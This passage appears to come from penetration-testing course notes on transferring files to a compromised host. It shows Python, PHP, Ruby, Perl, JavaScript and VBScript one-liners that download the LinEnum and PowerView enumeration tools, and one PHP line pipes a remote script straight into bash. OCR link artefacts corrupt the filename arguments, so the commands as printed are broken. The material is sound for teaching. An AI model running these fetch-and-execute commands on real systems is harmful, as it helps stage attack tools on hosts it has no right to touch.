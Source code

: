 **Python 2 - Download**

```bash
python2.7 -c 'import urllib;urllib.urlretrieve ("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>", "[LinEnum.sh](<http://linenum.sh/>)")'
```

**Python 3 - Download**

```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>", "[LinEnum.sh](<http://linenum.sh/>)")'
```

**PHP**

Let's see some examples of downloading files using PHP.

In the following example, we will use the PHP `file_get_contents()` module to download content from a website combined with the `file_put_contents()` module to save the file into a directory. PHP can be used to run one-liners from an operating system command line using the option `-r`.

**PHP Download with File_get_contents()**

```bash
php -r '$file = file_get_contents("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>"); file_put_contents("[LinEnum.sh](<http://linenum.sh/>)",$file);'
```

An alternative to file_get_contents() and file_put_contents() is the fopen() module. We can use this module to open a URL, read it's content and save it into a file.

**PHP Download with Fopen()**

```bash
php -r 'const BUFFER = 1024; $fremote = fopen("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>", "rb"); $flocal = fopen("[LinEnum.sh](<http://linenum.sh/>)", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

We can also send the downloaded content to a pipe instead, similar to the fileless example we executed in the previous section using cURL and wget.

**PHP Download a File and Pipe it to Bash**

```bash
php -r '$lines = @file("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Other Languages**

Ruby and Perl are other popular languages that can also be used to transfer files. These two programming languages also support running one-liners from an operating system command line using the option -e. **Ruby - Download a File**

```bash
ruby -e 'require "net/http"; File.write("[LinEnum.sh](<http://linenum.sh/>)", Net::HTTP.get(URI.parse("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>")))'
```

**Perl - Download a File**

```bash
perl -e 'use LWP::Simple; getstore("<https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>", "[LinEnum.sh](<http://linenum.sh/>)");'
```

**JavaScript** The following JavaScript code is based on this post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:

```bash
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.

**Download a File Using JavaScript and cscript.exe**

```bash
C:\\htb> cscript.exe /nologo wget.js <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1> PowerView.ps1
```

**VBScript** The following VBScript example can be used based on this. We'll create a file called `wget.vbs` and save the following content:

The following VBScript example can be used based on this. We'll create a file called wget.vbs and save the following content:

```bash
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
.type = 1
.open
.write xHttp.responseBody
.savetofile WScript.Arguments.Item(1), 2
end with
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.

**Download a File Using VBScript and cscript.exe**

```bash
C:\\htb> cscript.exe /nologo wget.vbs <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1> PowerView2.ps1
```
